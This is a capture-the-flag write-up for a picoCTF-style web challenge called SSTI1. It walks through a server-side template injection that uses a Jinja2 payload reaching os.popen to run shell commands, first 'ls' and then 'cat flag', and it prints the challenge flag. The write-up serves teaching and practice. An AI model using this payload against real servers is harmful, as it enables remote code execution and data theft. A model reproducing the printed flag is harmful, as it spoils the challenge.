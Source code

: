 # SSTI1

### Information
- Category: Web Exploitation
- Level: Easy

### Description
We need to inject this website to get the flag.

![](https://media.discordapp.net/attachments/961544480366931969/1432623415159947357/image.png?ex=6901ba07&is=69006887&hm=847e4adf11bdbc3c01420750ac191d47aa0f44f9de7bfc986a01ced1b2627424&=&format=webp&quality=lossless&width=754&height=255)

### Hint
- Server Side Template Injection 

## Solution
- First, we try some basic input to know how this web work. I have tried `3+7` and `{{3+7}}`, and here is the result from this web:

![](https://media.discordapp.net/attachments/961544480366931969/1432624120138436658/image.png?ex=6901baaf&is=6900692f&hm=62ef1853bca8567388714ea9369df7a46d0d5ca308d89d0e04e61dcd8d35ecaf&=&format=webp&quality=lossless&width=606&height=326)

![](https://media.discordapp.net/attachments/961544480366931969/1432624204511055973/image.png?ex=6901bac3&is=69006943&hm=f9027caf12496333e4aeb5dd6ab3c4c8f553c483228000d3afbe5ab478f7d94e&=&format=webp&quality=lossless&width=543&height=421)

- We can see that nothing happened with a normal input. So we have to tried a more sophisticated payload, which can perform a RCE (Remote Code Execusion) on the server.
- First, we use `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}` to check the directory content. The server return to this:

![](https://media.discordapp.net/attachments/961544480366931969/1432625481055866920/image.png?ex=6901bbf3&is=69006a73&hm=28934f12a925a73b3d8124bcf133b15bc79a29e77e990c27d115da5924349ccf&=&format=webp&quality=lossless&width=1774&height=493)

- Throughout this result, we can see the `flag` file, so we replace the `ls` command with `cat flag` to get the flag of this problem. 

**The flag is `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}`**
